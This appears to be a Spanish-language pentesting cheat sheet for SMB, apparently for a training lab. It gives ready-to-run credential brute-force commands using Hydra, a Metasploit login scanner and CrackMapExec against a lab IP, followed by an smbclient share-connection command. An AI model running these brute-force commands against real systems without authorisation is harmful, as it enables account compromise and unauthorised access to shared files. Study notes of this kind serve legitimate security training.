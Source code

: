 Server Message Block

Es un protocolo responsable de transferir datos entre un cliente y un servidor en redes de area local.Se utiliza para implementar servicios de impresion y uso compartido de archivos y directorios en redes Windows.A menudo se hace referencia a SMB como un sistema de archivos, pero no lo es.**SMB** se pueden comparar con `NFS` para Unix y Linux para proporcionar unidades en redes locales.

## FUERZA BRUTA

#### Hydra
Este da errores por incompatibilidades con la version de smb
```ruby
hydra -L user.list -P password.list smb://10.129.42.197
```

#### Metasploit
```ruby
use auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list
set rhosts 10.129.42.197
run
```

#### CrackMapExec
```ruby
crackmapexec smb IP -u "user" -p "password" --shares
```


## INTERACTUAR

#### SMBClient
```ruby
smbclient -U user \\\\IP\\SHARENAME
```


